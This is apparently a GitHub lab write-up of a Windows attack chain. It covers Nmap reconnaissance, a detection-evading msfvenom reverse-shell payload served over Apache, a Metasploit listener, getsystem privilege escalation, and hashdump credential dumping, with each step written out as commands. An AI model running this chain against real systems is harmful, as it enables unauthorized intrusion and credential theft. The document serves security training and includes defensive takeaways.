








[Back to all projects](https://github.com/sk0378/Ethical-Hacking-Projects/tree/Network-Traffic-Analysis-%26-Packet-Capture)

# System Hacking & Privilege Escalation

# Overview
Gaining initial access to a system is only the first step of an attack — real damage comes from what an attacker can do once they escalate privileges. In this lab, I performed network reconnaissance against a Windows Active Directory environment, built a custom payload with Metasploit's msfvenom, delivered it to the target, and escalated from a standard user session to full SYSTEM-level access. From there, I demonstrated post-exploitation actions like dumping password hashes and executing commands remotely.

# Tools Used
| Tool | Purpose |
|------|---------|
| Nmap | Network scanner used to discover live hosts and identify open ports/services |
| Metasploit Framework (msfconsole) | Exploitation framework used to set up a listener and manage the session |
| msfvenom | Payload generator used to create a custom Windows executable (exploit.exe) |
| Apache2 | Web server used to host the payload so the target could download it |
| Meterpreter | Post-exploitation agent used to interact with the compromised system |

# Lab Environment
* Kali Linux – Attacker/analyst machine (192.168.0.2)
* Windows Server (Domain Controller) – Target machine (192.168.0.20), part of the "ETHICAL" Active Directory domain

# What I Did

# Part 1 – Network Reconnaissance
Used Nmap to sweep the local subnet and identify live hosts on the network:
```bash
nmap -sP 192.168.0.0/24
```
Ran a more detailed scan against the identified target to fingerprint open ports, running services, and the operating system:
```bash
nmap -sSV -O 192.168.0.20
```
This revealed a Windows Server acting as a Domain Controller, with ports open for Kerberos, LDAP, SMB, and RPC — confirming it was part of an Active Directory domain named "Ethical.local."


# Part 2 – Building and Hosting the Payload
Opened Metasploit and searched for a reverse TCP Meterpreter payload to use against the Windows target:
```bash
sudo msfconsole
search windows/meterpreter/reverse_tcp
```
Set up a directory on the Kali machine's web server to host the payload, then used msfvenom to generate a standalone Windows executable, encoding it with shikata_ga_nai to help avoid signature-based detection:
```bash
mkdir /var/www/html/lab21
systemctl start apache2
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' LHOST=192.168.0.2 LPORT=4444 -f exe > /var/www/html/lab21/exploit.exe
```




# Part 3 – Setting Up the Listener
Relaunched Metasploit and configured the multi/handler exploit module to catch the reverse connection once the payload was executed on the target:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.0.2
exploit -j -z
```


# Part 4 – Delivering and Executing the Payload
On the Windows target, browsed to the Kali web server and downloaded exploit.exe from the hosted lab21 directory, then ran it. Back on Kali, the handler caught the callback and opened a Meterpreter session:
```bash
sysinfo
```




# Part 5 – Privilege Escalation & Post-Exploitation
Checked the current user context, then escalated privileges to the highest level available on Windows:
```bash
getuid
getsystem
getuid
```
This confirmed escalation from ETHICAL\administrator to NT AUTHORITY\SYSTEM using Named Pipe Impersonation. With SYSTEM access, dumped the full password hash database from the target and demonstrated remote command execution by uploading and running a custom command file:
```bash
run hashdump
upload hacked.cmd C:\\users\\administrator\downloads
execute -f hacked.cmd
```






# Key Takeaways
* I learned how Nmap's service and OS detection scans can reveal far more than just open ports — in this case, identifying an entire Active Directory domain structure from a single scan
* msfvenom made it clear how quickly a working, encoded payload can be generated and hosted for delivery, which highlights why unrestricted outbound web access and unmonitored executable downloads are a major risk on corporate networks
* Setting up the multi/handler listener showed me how the attacker and payload must have matching payload types and connection settings (LHOST/LPORT) to successfully establish a session
* The privilege escalation step was the most important part of the lab —> getSystem showed how a single misconfiguration or exploitable service (like Named Pipe Impersonation) can take an attacker from a standard user account straight to full SYSTEM control
* Once SYSTEM access was achieved, actions like hashdump and remote command execution demonstrated just how much damage is possible post-compromise: credential theft, persistence, and full control over the machine
* This lab reinforced why defense-in-depth matters — network segmentation, application whitelisting, and monitoring for unusual process execution could have interrupted this attack chain at multiple points
